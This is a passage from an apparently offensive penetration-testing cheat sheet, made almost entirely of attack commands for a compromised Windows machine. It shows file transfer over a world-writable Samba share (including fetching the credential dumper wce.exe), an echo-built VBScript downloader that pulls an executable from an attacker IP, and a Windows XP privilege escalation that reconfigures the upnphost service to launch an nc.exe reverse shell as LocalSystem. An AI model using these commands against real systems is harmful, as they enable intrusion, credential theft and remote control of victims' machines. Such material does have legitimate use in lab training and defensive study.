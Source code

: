 ```bash
		force user = nobody

	chmod -R 777 smb_path
	chown -R nobody:nobody smb_path
	service smbd restart

# Victim machine with reverse shell
Download: copy \\10.11.1.111\Lab\wce.exe .
Upload: copy wtf.jpg \\10.11.1.111\Lab
```

#### Windows download with VBS

```bash
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.11.1.111/file.exe file.exe
```

#### Windowss XP SP1 PrivEsc

```bash
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.1.111 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```
